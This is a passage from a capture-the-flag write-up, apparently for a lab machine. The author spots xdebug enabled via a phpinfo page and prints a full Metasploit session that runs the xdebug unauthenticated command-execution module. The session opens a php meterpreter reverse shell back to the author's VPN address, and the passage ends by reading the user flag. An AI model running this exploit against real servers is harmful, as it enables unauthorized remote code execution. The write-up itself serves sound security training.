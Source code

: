 Going over to info.php it displays the output of `phpinfo()`. The interesting thing here is that xdebug support is enabled which let's us easily get rce on the server. We will use the msf module for this since this seems like a pivot heavy box, which metasploit is a great help at.

[![xdebug_enabled](/img/static/xdebug_enabled.png)](/img/static/xdebug_enabled.png)

We select the module set the rhosts to the target, path to `/info.php`, the lhost to our second vpn ip and run the exploit. This results in a meterpreter php shell which sadly has no autoroute capabilities from my understanding.

```
msf6 > search xdebug

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/http/xdebug_unauth_exec  2017-09-17       excellent  Yes    xdebug Unauthenticated OS Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/http/xdebug_unauth_exec

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/http/xdebug_unauth_exec) > set rhosts 172.20.0.10
rhosts => 172.20.0.10
msf6 exploit(unix/http/xdebug_unauth_exec) > set path /info.php
path => /info.php
msf6 exploit(unix/http/xdebug_unauth_exec) > set lhost 172.30.0.8
lhost => 172.30.0.8
msf6 exploit(unix/http/xdebug_unauth_exec) > run

[*] Started reverse TCP handler on 172.30.0.8:4444
[*] 172.20.0.10:80 - Waiting for client response.
[*] 172.20.0.10:80 - Receiving response
[*] 172.20.0.10:80 - Shell might take upto a minute to respond.Please be patient.
[*] 172.20.0.10:80 - Sending payload of size 2026 bytes
[*] Sending stage (39282 bytes) to 172.30.0.1
[*] Meterpreter session 1 opened (172.30.0.8:4444 -> 172.30.0.1:48412) at 2021-06-20 08:27:01 +0000

meterpreter >
```

We can however now read the user flag in the `/home` directory.

```
wc -c /home/user.txt
33 /home/user.txt
```
